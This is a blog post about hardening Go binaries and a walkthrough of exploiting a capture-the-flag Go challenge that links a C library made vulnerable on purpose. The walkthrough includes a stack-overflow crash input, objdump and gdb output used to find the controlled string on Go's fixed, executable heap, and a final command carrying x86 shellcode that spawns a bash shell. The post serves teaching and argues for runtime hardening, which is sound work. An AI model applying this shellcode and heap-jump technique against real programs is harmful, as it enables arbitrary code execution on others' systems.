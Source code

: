 Title: Securing and Exploiting Go Binaries
Date: 2012-05-06
Summary: I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey.

<h3>Introduction</h3>
<p>
First, I have been working in Go for about a year now. As part of this years pCTF, I created a problem that involved exploiting a Go binary (binary and source <a href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz">here</a>). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary.
</p>

<h3>Securing a Go Binary</h3>
<p>
Creating a secure, production-ready Go binary was more challenging than expected. By default: <ul>
	<li>The Go build tools include the full path to the source on the build machine in the binary. </li>
	<li>Go binaries helpfully print the faulting address and instruction on segmentation faults.</li>
	<li>The heap in Go is loaded at a fixed address and is executable.</li>
	<li>Go binaries are linked with full debug information.</li>
</ul>
I filed a <a href="http://code.google.com/p/go/issues/detail?id=3467">issue</a> suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet.
</p>

<p>
Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable <tt>GOROOT_FINAL</tt> before running <tt>all.bash</tt> (see <a href="http://code.google.com/p/go/issues/detail?id=3467#c4">this comment</a> on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a <tt>/tmp/build</tt> directory before compiling so that the only string was a <tt>"/tmp/build"</tt> rather than the actual path.
</p>
<p>
Some debug information can be stripped by passing <tt>-s</tt> as a command line to the linker (for example, <tt>go build -ldflags "-s" prog.go</tt>). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon.
</p>
<h3>Exploiting a Go program</h3>
<h4>Disclaimer</h4>
<p>
First things first - I did <em>not</em> find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags <tt>-fno-stack-protector -U_FORTIFY_SOURCE</tt> to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go.
</p>
<p>
However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars <a href="https://github.com/banthar/gl">package</a> with Go bindings for OpenGl or a <a href="http://go-lang.cat-v.org/library-bindings">variety</a> of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime.
</p>
<p>
Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the <a href="webapp"><tt>webapp</tt></a> problem used in pCTF.
</p>

<h4>The actual exploit</h4>
<p>
The Go runtime has some really interesting properties that make it fun to exploit:
<ul>
	<li>The heap is executable.</li>
	<li>The heap is deterministic and in a fixed location every run</li>
	<li>Immutable strings tend to end up on the heap</li>
</ul>
We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash.
</p>

    :::console
    $ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
    unexpected fault address 0x42424242
    throw: fault
    [signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

    goroutine 1 [syscall]:
    levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	    /tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
    levellog.Log(0x1, 0x1883cd00, 0x7f)
	    /tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
    main.main()
	    /tmp/build/src/webapp/main.go:21 +0x101

    goroutine 2 [syscall]:
    created by runtime.main
	    /usr/local/src/go/src/pkg/runtime/proc.c:221

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we <tt>objdump</tt> the function and put a breakpoint before returning to our clobbered return address.

    :::objdump
    080624d0 <Log>:
     80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
     80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
     80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
     80624e4:       e8 4f 00 00 00          call   8062538 <__i686.get_pc_thunk.bx>
     80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
     80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
     80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
     80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
     80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
     8062505:       89 34 24                mov    %esi,(%esp)
     8062508:       89 44 24 08             mov    %eax,0x8(%esp)
     806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
     8062512:       89 44 24 04             mov    %eax,0x4(%esp)
     8062516:       e8 ad 6c 25 00          call   82b91c8 <sprintf@plt>
     806251b:       89 34 24                mov    %esi,(%esp)
     806251e:       e8 b5 6c 25 00          call   82b91d8 <puts@plt>
     8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
     806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
     8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
     8062537:       c3                      ret

and

    :::console
    $ gdb webapp
    GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
    Copyright (C) 2011 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    For bug reporting instructions, please see:
    ...
    Reading symbols from /tmp/build/webapp...done.
    Loading Go Runtime support.
    (gdb) b *0x8062537
    Breakpoint 1 at 0x8062537

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range <tt>[0x18600000, 0x18900000]</tt> for this binary since Go has a deterministic heap).
    
    :::console
    (gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    [Thread debugging using libthread_db enabled]
    [New Thread 0xb7ccbb70 (LWP 7869)]
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

    Breakpoint 1, 0x08062537 in Log ()
    (gdb) x/a $esp
    0xbffff1ac:	0x42424242
    (gdb) find 0x18600000, 0x18900000, 0x42424242
    0x1883cd7b


So now we know that our string, which is <tt>:AAAA...AAAABBBB</tt>, is located at <tt>0x1883cd7b - 4 - 109 = 0x1883cd0e</tt> on the heap. (Note - this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

    :::console
    $ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
    AAAAAAAAA       1Listening on :j
				    Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
    $
<p>
Success!
</p>
<h3>Postmortem</h3>
<p>
This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution.
</p>

<p>
It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: <em>this binary is easily exploitable because it is a Go binary</em>, even assuming ASLR, NX, and libc randomization.
</p>

<p>
I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary. 
</p>

<h3>Go Community Response</h3>
<p>
For anyone who is interested, the Go community's response is <a href="http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41">here</a>. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree - vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort.
</p>

<h3>Other writeups</h3>
<p>
There are writeups of this problem available by:
<ul>
	<li><a href="http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/">Eindbazen</a> (C style return to libc exploit)</li>
	<li><a href="http://www.bases-hacking.org/bunyan-plaidctf2012.html">w3stormz</a> (Go heap exploit, in French)</li>
</ul>
</p>

<h3>tl;dr</h3>
<p>
Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward.
</p>
<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span> 
